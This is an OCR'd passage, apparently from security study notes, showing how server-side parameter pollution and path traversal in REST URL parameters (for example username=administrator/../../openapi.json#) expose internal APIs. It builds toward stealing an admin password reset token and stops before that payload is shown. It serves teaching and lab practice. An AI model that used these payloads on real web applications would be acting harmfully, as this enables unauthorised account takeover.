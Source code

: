 This can result in the following server-side request:

```html
GET /api/private/users/peter
```

An attacker might be able to manipulate server-side URL path parameters to exploit the API. To test for it, add path traversal sequences to modify parameters and observe how the app responds.

You can submit URL-encoded creds (peter/../admin) as the value of the name parameter:

```html
GET /edit_profile.php?name=peter%2f..%2fadmin
```

Which may result in the following server-side request:

```html
GET /api/private/users/peter/../admin
```
# Exploiting server-side parameter pollution in a REST URL

As an example, the following request is vulnerable to parameter pollution:

```html
POST /forgot-password HTTP/2
REDACTED...

csrf=63i3nSUwifBDmAYAnYtmxk2TP6EMFT8V&username=administrator
```

To identify the vulnerability and exploit it, the following could be done to potentially gain access to the admin account. For example, the payload returned a different response than the previous requests:

```html
csrf=63i3nSUwifBDmAYAnYtmxk2TP6EMFT8V&username=administrator/../../../../../
```

The following still returns the normal response, indicating that the app is processing the path traversal inputs:

```html
csrf=63i3nSUwifBDmAYAnYtmxk2TP6EMFT8V&username=administrator/../administrator
```

The following payload returns a verbose error message that discloses the structure of the internal API:

```bash
csrf=NpAyxU8sqRJrZ5KvnR0WzVLBYTnV3Kt8&username=../../../../openapi.json%23
```

The decoded version is:

```bash
csrf=63i3nSUwifBDmAYAnYtmxk2TP6EMFT8V&username=administrator/../../../../../openapi.json#
```

The following payload will return the "password reset token" for the admin user. The variable name (passwordResetToken) was found in a JavaScript file:
